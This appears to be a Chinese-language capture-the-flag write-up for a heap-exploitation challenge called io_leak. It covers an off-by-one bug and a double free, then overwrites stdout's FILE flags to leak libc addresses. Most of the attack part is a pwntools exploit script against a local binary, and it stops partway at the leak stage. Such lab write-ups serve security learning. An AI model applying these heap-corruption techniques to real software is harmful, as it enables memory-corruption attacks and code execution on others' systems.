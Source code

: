 ![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102402565-fa23dea8-3733-407e-91b3-c44079daf589.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102427129-0676af8c-b61e-4be9-a7f7-b985fc583193.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102453301-a37d28f2-4659-4b37-895a-6b96c7998d26.png)

## 例题io_leak

### 逆向分析

只有add和del功能，无法通过show来leak

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102647149-f7edce97-a44b-4ff2-a652-fe7896506a2a.png)存在off by one

### 调试

off by one构造unsorted bin，之后构造double free

stdout与main_arena及其接近

所以double后爆破到stdout上修改flag值leak地址

### 脚本

```python
from pwn import *
p = process('./io_leak')
context.log_level = 'debug'
def launch_gdb():
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(proc.pidof(p)[0])

def alloca(i,c,data):
    p.recvuntil('>>>')
    p.sendline('1')
    p.recvuntil('idx:')
    p.sendline(str(i))
    p.recvuntil('len:')
    p.sendline(str(c))
    p.recvuntil('content:')
    p.send(data)

def free(i):
    p.recvuntil('>>>')
    p.sendline('2')
    p.recvuntil('idx:')
    p.sendline(str(i))

# 
# launch_gdb()
def leak_addr():
    alloca(0,1,'aa')
    alloca(1,0x4f0,'aaaaaa')#size=0x500
    alloca(2,0xb0,'aa')#size=0xc0
    alloca(3,0xb0,'aa')
    free(0)
    alloca(0,0x18,'/bin/sh\x00'*3 + '\xc1')
    free(1)
    alloca(1,0x4f0,'aaaaaa')
    free(2)
    alloca(4,0x30,'\x50\x47')
    alloca(2,0xb0,'aaa')
    alloca(5,0xb0,p64(0)*2 + p64(0xfbad3c80)+p64(0)*3+p8(0))
    #最后的值可以微调
```